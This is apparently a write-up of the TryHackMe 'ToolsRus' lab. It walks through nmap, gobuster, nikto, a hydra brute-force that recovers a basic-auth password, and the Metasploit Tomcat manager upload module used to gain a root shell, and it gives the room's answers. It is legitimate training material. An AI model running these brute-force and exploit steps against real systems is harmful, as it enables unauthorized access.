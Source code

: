 ```yaml
---
title: Walkthrough - ToolsRus
published: true
---
```


[https://tryhackme.com/room/toolsrus](https://tryhackme.com/room/toolsrus)

* * *

## Hacking

We get to use the following tools

- Dirbuster
- Hydra
- Nmap
- Nikto
- Metasploit

```shell
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)

22/tcp   open  ssh     syn-ack ttl 61
80/tcp   open  http    syn-ack ttl 61
1234/tcp open  hotline syn-ack ttl 61
8009/tcp open  ajp13   syn-ack ttl 61
```

* * * 

## What directory can you find, that begins with a "g"?

- ``gobuster dir -u http://10.10.192.13/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -x txt,html,php --no-error``

* * * 

## Whose name can you find from this directory?

- Visit ``/guidelines/`` - bob

* * * 

## What directory has basic authentication?

- ``/protected/``

* * * 

## What is bob's password to the protected part of the website?

- ``hydra -l bob -P /usr/share/seclists/Passwords/rockyou.txt 10.10.192.13 http-get /protected``
- ``[80][http-get] host: 10.10.192.13   login: bob   password: bubbles``

* * * 

## What other port that serves a webs service is open on the machine?

- ``sudo nmap -Pn -sS -p- -T4 10.10.192.13 -vvv``

* * * 

## Going to the service running on that port, what is the name and version of the software?

Answer format: Full_name_of_service/Version

- Apache Tomcat/7.0.88

* * * 

## Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.

How many documentation files did Nikto identify?

- ``nikto -h http://10.10.192.13:1234/manager/html -id bob:bubbles -Format xml -o niktoscan``
- scan took a few hours...

* * * 

## What is the server version (run the scan against port 80)?

- ``nmap -sV -sT -p22,80,8009 -T4 10.10.192.13 -vvv``

* * * 

## What version of Apache-Coyote is this service using?

- ``nmap -sV -sT -p22,80,8009 -T4 10.10.192.13 -vvv``

* * * 

## Use Metasploit to exploit the service and get a shell on the system.

- ``multi/http/tomcat_mgr_upload``

**What user did you get a shell as?**

- root

**What text is in the file /root/flag.txt**

- ``cat flag.txt``

* * * 